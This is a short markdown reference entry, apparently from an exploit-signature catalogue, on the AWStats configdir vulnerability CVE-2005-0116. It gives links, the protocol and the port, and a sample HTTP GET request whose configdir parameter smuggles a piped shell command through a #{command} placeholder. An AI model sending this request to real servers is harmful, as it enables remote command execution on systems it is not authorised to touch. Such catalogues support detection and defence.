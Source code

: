 # CVE-2005-0116 AWStats configdir

# Links:
https://www.exploit-db.com/exploits/772
https://www.rapid7.com/db/modules/exploit/unix/webapp/awstats_configdir_exec


# Protocols:
HTTP


# Ports:
80


# Sample:

```
GET /cgi-bin/awstats.pl?configdir=|echo;echo%20YYY;#{command};echo%20YYY;echo| HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Connection: Close
```
